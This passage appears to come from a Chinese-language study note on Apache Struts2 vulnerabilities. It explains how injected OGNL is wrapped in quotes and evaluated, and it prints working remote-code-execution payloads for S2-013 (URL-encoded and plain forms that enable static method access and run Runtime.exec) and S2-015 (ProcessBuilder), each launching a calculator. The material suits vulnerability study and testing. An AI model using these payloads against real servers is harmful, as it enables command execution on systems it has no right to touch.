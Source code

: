 ```java
    }
```
在Object value = entry.getValue();中取出了传入的payload<br /> 在fakie.put(propertyName, getOverrideExpr(invocation, value));中跟进getOverrideExpr。
```java
protected Object getOverrideExpr(ActionInvocation invocation, Object value) {
        return "'" + value + "'";
    }
```
于是前后两端加'，用于闭合。<br />然后放入invocation中，最后通过invoke解析并触发。
<a name="D7nkR"></a>
# S2-013
```java
%24%7B%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D@java.lang.Runtime@getRuntime%28%29.exec%28%27calc%27%29.getInputStream%28%29%2C%23b%3Dnew%20java.io.InputStreamReader%28%23a%29%2C%23c%3Dnew%20java.io.BufferedReader%28%23b%29%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read%28%23d%29%2C%23out%3D@org.apache.struts2.ServletActionContext@getResponse%28%29.getWriter%28%29%2C%23out.println%28%2bnew%20java.lang.String%28%23d%29%29%2C%23out.close%28%29%7D
```
该poc为
```java
%{(#_memberAccess['allowStaticMethodAccess']=true)(#context['xwork.MethodAccessor.denyMethodExecution']=false)(#writer=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),#writer.println('hacked'),#writer.close())}
```
是%{(exp)}形式，后面这种形式被ban了。<br />不过还有%{exp}格式。不列举了。

<a name="IIWlL"></a>
# S2-015
```java
${new java.lang.ProcessBuilder(new java.lang.String[]{'calc'}).start()}.action
```


